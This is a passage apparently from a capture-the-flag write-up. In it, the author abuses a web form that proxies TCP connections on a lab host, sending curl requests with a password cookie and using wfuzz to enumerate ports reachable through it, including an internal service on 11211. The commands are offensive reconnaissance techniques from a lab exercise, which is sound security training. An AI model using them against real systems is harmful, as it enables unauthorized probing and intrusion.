     root@kali# curl -H "Cookie: password=secret" 'http://10.10.10.86:8080/socket?port=80&cmd=0xdf'
    ...[snip]...
    <p>Output</p>
    <pre>
    HTTP/1.1 400 Bad Request
    Server: nginx/1.10.3 (Ubuntu)
    Date: Tue, 29 Jan 2019 14:25:16 GMT
    Content-Type: text/html
    Content-Length: 182
    Connection: close
    
    &lt;html&gt;
    &lt;head&gt;&lt;title&gt;400 Bad Request&lt;/title&gt;&lt;/head&gt;
    &lt;body bgcolor=&#34;white&#34;&gt;
    &lt;center&gt;&lt;h1&gt;400 Bad Request&lt;/h1&gt;&lt;/center&gt;
    &lt;hr&gt;&lt;center&gt;nginx/1.10.3 (Ubuntu)&lt;/center&gt;
    &lt;/body&gt;
    &lt;/html&gt;
    
    </pre>
    ...[snip]...
    

This form seems to be proxying tcp connections. I’ll use `wfuzz` again, this
time to look for what ports are open. I’ll filter out responses that are 500:

    
    
    root@kali# wfuzz -c -z range,1-65535 -u 'http://10.10.10.86:8080/socket?port=FUZZ&cmd=abc' -H "Cookie: password=secret" --hc=500
    
    ********************************************************
    * Wfuzz 2.2.11 - The Web Fuzzer                        *
    ********************************************************
    
    Target: http://10.10.10.86:8080/socket?port=FUZZ&cmd=abc
    Total requests: 65535
    
    ==================================================================
    ID      Response   Lines      Word         Chars          Payload    
    ==================================================================
    
    000021:  C=200     28 L       61 W          627 Ch        "21"
    000022:  C=200     28 L       55 W          629 Ch        "22"
    000080:  C=200     40 L       84 W         1010 Ch        "80"
    008080:  C=200     40 L       84 W         1010 Ch        "8080"
    011211:  C=200     27 L       52 W          576 Ch        "11211"
    
    Total time: 817.6226
    Processed Requests: 65535
    Filtered Requests: 65529
    Requests/sec.: 80.15311
    

At this point, I’ll hypothesize that the connections are being proxied to
localhost, as the same 4 ports are open, and that something is running on
11211 that is only listening on localhost or there’s a firewall preventing me
from interacting with it directly.

